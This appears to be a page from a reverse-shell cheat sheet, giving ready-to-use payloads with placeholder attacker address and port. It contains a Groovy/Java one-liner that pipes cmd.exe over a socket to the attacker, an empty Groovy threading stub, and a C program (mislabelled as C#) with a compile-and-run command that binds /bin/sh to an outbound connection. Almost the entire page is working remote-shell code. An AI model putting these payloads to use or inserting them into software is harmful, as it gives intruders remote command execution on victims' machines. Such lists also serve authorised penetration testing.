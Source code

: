 #### Groovy

by [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

```java
String host="$ATTACKER_IP";
int port=$ATTACKER_PORT;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

#### Groovy Alternative 1

```java
Thread.start {
    // Reverse shell here
}
```

#### C

Compile with `gcc /tmp/shell.c --output csh && csh`

```csharp
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = $ATTACKER_PORT;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("$ATTACKER_IP");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}
```
